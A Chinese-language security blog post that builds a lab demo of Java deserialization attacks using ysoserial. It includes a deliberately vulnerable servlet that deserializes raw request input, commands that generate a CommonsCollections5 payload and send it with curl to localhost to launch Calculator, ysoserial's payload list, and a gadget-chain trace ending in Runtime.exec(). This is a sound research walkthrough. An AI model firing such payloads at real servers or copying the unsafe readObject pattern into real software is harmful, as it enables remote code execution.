 ```yaml
---
title: ysoserial反序列化研究
date: 2017-05-20 00:01:03
categories: Web安全
tags:
    - 反序列化
    - JAVA
---
```


## demo环境搭建

源码分析ysoserial, 了解java反序列化利用的常见方式，光说不练假把式，搭建demo环境，测试ysoserial利用的实际效果。

**开发环境**

* InteliJ IDEA
* JDK 1.8.0_112-b16
* tomcat 8.5
* MAC OS

新建项目"SimpleWebDemo",再新建servlet文件"SimpleServlet",项目配置如下图:

{% asset_img 001.png %}

<!-- more -->

`SimpleServlet`源码如下:

```java
package demo;

import javax.servlet.ServletInputStream;
import java.io.*;

/**
 * Created by js on 2017/5/19.
 */
public class SimpleServlet extends javax.servlet.http.HttpServlet {
    protected void doPost(javax.servlet.http.HttpServletRequest request, javax.servlet.http.HttpServletResponse response) throws javax.servlet.ServletException, IOException {
        ServletInputStream sis = request.getInputStream();

        ObjectInputStream ois = new ObjectInputStream(sis);
        try {
            ois.readObject();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }
        ois.close();
    }

    protected void doGet(javax.servlet.http.HttpServletRequest request, javax.servlet.http.HttpServletResponse response) throws javax.servlet.ServletException, IOException {
        PrintWriter out = response.getWriter();
        out.println("This is a demo");
    }
}
```

利用ysoserial生成payload:

```
java -jar ysoserial-v0.0.4.jar CommonsCollections5 "open -a Calculator" > calc.payload
```

curl访问触发漏洞:

```
curl "http://127.0.0.1:8080/demo" --data-binary "@./calc.payload"
```

{% asset_img 002.png %}

## ysoserial反序列化利用

查看反序列化用到的组件及所需满足的条件: `java -jar ysoserial-v0.0.4.jar`

```
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'
	Available payload types:
		BeanShell1 [org.beanshell:bsh:2.0b5]
		C3P0 [com.mchange:c3p0:0.9.5.2, com.mchange:mchange-commons-java:0.2.11]
		CommonsBeanutils1 [commons-beanutils:commons-beanutils:1.9.2, commons-collections:commons-collections:3.1, commons-logging:commons-logging:1.2]
		CommonsCollections1 [commons-collections:commons-collections:3.1]
		CommonsCollections2 [org.apache.commons:commons-collections4:4.0]
		CommonsCollections3 [commons-collections:commons-collections:3.1]
		CommonsCollections4 [org.apache.commons:commons-collections4:4.0]
		CommonsCollections5 [commons-collections:commons-collections:3.1]
		CommonsCollections6 [commons-collections:commons-collections:3.1]
		FileUpload1 [commons-fileupload:commons-fileupload:1.3.1, commons-io:commons-io:2.4]
		Groovy1 [org.codehaus.groovy:groovy:2.3.9]
		Hibernate1 []
		Hibernate2 []
		JBossInterceptors1 [javassist:javassist:3.12.1.GA, org.jboss.interceptor:jboss-interceptor-core:2.0.0.Final, javax.enterprise:cdi-api:1.0-SP1, javax.interceptor:javax.interceptor-api:3.1, org.jboss.interceptor:jboss-interceptor-spi:2.0.0.Final, org.slf4j:slf4j-api:1.7.21]
		JRMPClient []
		JRMPListener []
        JSON1 [net.sf.json-lib:json-lib:jar:jdk15:2.4, org.springframework:spring-aop:4.1.4.RELEASE, aopalliance:aopalliance:1.0, commons-logging:commons-logging:1.2, commons-lang:commons-lang:2.6, net.sf.ezmorph:ezmorph:1.0.6, commons-beanutils:commons-beanutils:1.9.2, org.springframework:spring-core:4.1.4.RELEASE, commons-collections:commons-collections:3.1]
		JavassistWeld1 [javassist:javassist:3.12.1.GA, org.jboss.weld:weld-core:1.1.33.Final, javax.enterprise:cdi-api:1.0-SP1, javax.interceptor:javax.interceptor-api:3.1, org.jboss.interceptor:jboss-interceptor-spi:2.0.0.Final, org.slf4j:slf4j-api:1.7.21]
		Jdk7u21 []
		Jython1 [org.python:jython-standalone:2.5.2]
		MozillaRhino1 [rhino:js:1.7R2]
		Myfaces1 []
		Myfaces2 []
		ROME [rome:rome:1.0]
		Spring1 [org.springframework:spring-core:4.1.4.RELEASE, org.springframework:spring-beans:4.1.4.RELEASE]
		Spring2 [org.springframework:spring-core:4.1.4.RELEASE, org.springframework:spring-aop:4.1.4.RELEASE, aopalliance:aopalliance:1.0, commons-logging:commons-logging:1.2]
		URLDNS []
		Wicket1 [wicket-util:wicket-util:6.23]
```

可以看出ysoyerial支持多种组件，而最常见的就是`commons-collections`组件了。因此有必要分析ysoserial利用`commons-collections`组件构造反序列化POP链的原理。

## commons-collections

### commons-collections1

**依赖条件**

* commons-collections:3.1

**调用链**

```
Gadget chain:
    ObjectInputStream.readObject()
        AnnotationInvocationHandler.readObject()
            Map(Proxy).entrySet()
                AnnotationInvocationHandler.invoke()
                    LazyMap.get()    <== 触发调用 transform()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()				
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```

http://gursevkalra.blogspot.cz/2016/01/ysoserial-commonscollections1-exploit.html
https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html

http://blog.knownsec.com/2016/03/java-deserialization-commonsbeanutils-pop-chains-analysis/
